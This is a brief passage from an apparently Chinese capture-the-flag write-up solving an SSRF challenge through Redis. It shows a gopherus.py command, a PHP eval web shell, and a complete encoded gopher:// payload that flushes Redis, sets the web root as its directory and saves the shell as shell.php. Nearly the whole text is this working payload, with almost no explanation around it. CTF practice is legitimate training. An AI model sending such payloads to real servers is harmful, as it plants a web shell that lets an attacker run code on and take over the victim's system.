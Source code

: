这题跟上题类似，我们使用redis

```
python gopherus.py --exploit redis

<?php eval($_post[1]);?>


```

![image-20220418223051741](https://i-blog.csdnimg.cn/blog_migrate/c2c77b21fb7a5718180b34688a339981.png)

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252428%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

![image-20240904210949269](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042109345.png)
